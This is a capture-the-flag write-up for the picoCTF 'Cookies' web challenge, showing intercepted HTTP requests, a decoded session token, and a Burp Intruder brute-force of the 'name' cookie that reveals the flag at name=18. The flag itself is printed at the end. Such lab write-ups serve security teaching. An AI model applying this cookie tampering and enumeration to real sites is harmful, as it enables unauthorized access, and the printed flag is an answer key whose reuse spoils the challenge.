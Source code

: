 # Cookies

## Description
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

## Write Up
First we'll fire up burp so we can have a look at the HTTP request that gets sent when you enter in a cookie name this is what we can see:

```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=-1
Upgrade-Insecure-Requests: 1

name=mint
```

This is the resultant HTTP request when I entered in mint into the search bar. The request has a Cookie header which has a "name" attribute, and the POST body has a "name" field with our input inside. 

If we forward our this request through a **GET** request gets created:

```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=-1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShNXQ.I6h-imR03NfNpf3sg3t6btKuMEE
Upgrade-Insecure-Requests: 1
```

The Cookie header now has a session token which looks like a **JSON Web Token (JWT)**, If we copy it into a JWT decoder we can see that the token is malformed however, we can see some of its values:

```
{
  "_flashes": [
    {
      " t": [
        "danger",
        "That doesn't appear to be a valid cookie."
      ]
    }
  ]
}
```

It is telling us the Cookie value "name=-1" doesnt seem to be valid. So we will go back to the home page, enter a new cookie name in, intercept the request and alter the Cookie header attribute and see what happens. (NOTE: Additional GET request get created when we alter the "name" attribute, we will update the name attribute to our new number that we are trying with all these subsequent requests):

First request : **POST** to /search: name=1
```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=1
Upgrade-Insecure-Requests: 1

name=
```

Second request: **GET** to /: name=1
```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

Third request: **GET** to /check: name=1
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

We can see that the page responds with this:

![Image of chocolate
search](https://github.com/sixdeadbeefs/CTF/blob/main/PicoCTF/web-exploitation/cookies/images/chocolate.png)

So we know that cookie types are assigned to a number referenced in the name attribute. So we will use Burpsuite intruder to brute force name values starting 1. (NOTE: We dont sent the **POST** request to the intruder because we know that all the post requests to /search just get redirected, as we saw above with the subsequent requests we dealt with before, instead we send the request that gets generated after a POST is sent to /search)

Our positions will look like this, with attack type **Sniper**:
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=§-1§; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YSh3aA.J8b66mdt5q4dPoOSpNL9ARqqPfQ
Upgrade-Insecure-Requests: 1
```

And our payload will contain this configuration:

![Image of intruder configuration]
(https://github.com/sixdeadbeefs/CTF/blob/main/PicoCTF/web-exploitation/cookies/images/intruder-config.png

After the intruder attack is done, we can see a list of all the requests sent and their responses back, if we start looking through the responses we will eventually come across the response to name=18 which contains our cookie.

picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}
